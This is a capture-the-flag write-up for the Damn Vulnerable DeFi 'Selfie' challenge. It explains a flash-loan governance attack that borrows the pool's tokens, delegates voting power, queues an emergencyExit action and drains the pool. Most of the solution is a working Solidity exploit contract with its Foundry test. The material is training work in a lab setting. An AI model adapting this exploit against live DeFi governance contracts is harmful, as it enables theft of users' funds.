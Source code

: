 # Selfie CTF Writeup

## Challenge Description
A new lending pool has launched! It’s now offering flash loans of DVT tokens. It even includes a fancy governance mechanism to control it.

What could go wrong, right ?

You start with no DVT tokens in balance, and the pool has 1.5 million at risk.

Rescue all funds from the pool and deposit them into the designated recovery account.

## The Exploit Strategy
There are two contracts SimpleGovernance and SelfiePool. SelfiePool consits some functions and it provides flasloan and emergency exit to transfer amount in critical emergency and SimpleGovernance provides governing techniques to do things with execution
.'emergencyExit' function has modifier to checck whether owner is governcace or not.

1. get the flashloan
2. make the token delegatation to pass governace check
3. while repaying the flashLoan create exploitable action to trigger the emergencyExit function with param recovery address.
4. after the flash loan call the execute action after two days 



## Solution

```solidity
function test_selfie() public checkSolvedByPlayer {
        Attack attack = new Attack(address(pool), address(token), address(governance),recovery);
        attack.attack();
        vm.warp(block.timestamp + 2 days);
        require(attack.executeAction());
}
```

```solidity
contract Attack is IERC3156FlashBorrower {
    DamnValuableVotes token;
    SimpleGovernance governance;
    SelfiePool pool;
    address recovery;
    uint256 actionId;

    constructor(address _pool, address _token, address _governance, address _recovery) {
        token = DamnValuableVotes(_token);
        pool = SelfiePool(_pool);
        governance = SimpleGovernance(_governance);
        recovery = _recovery;
    }

    function onFlashLoan(address initiator, address _token, uint256 amount, uint256 fee, bytes calldata _data)
        external
        override
        returns (bytes32)
    {
        bytes memory data = abi.encodeWithSignature("emergencyExit(address)", recovery);
        token.delegate(address(this));

        actionId = governance.queueAction(address(pool), 0, data);
        IERC20(token).approve(address(pool),amount+fee);
        bytes32 CALLBACK_SUCCESS = keccak256("ERC3156FlashBorrower.onFlashLoan");
        return CALLBACK_SUCCESS;
    }

    function attack() external {
        pool.flashLoan(IERC3156FlashBorrower(address(this)), address(token), 1_500_000e18, "");
    }

    function executeAction() external returns(bool){
        bytes memory data = governance.executeAction(actionId);
        return true;
    }
}
```

## References
- [Solution Link](https://docs.soliditylang.org/)
- [Damn Vulnerable DeFi](https://www.damnvulnerabledefi.xyz/)

 forge test --mp test/selfie/Selfie.t.sol -vvvv




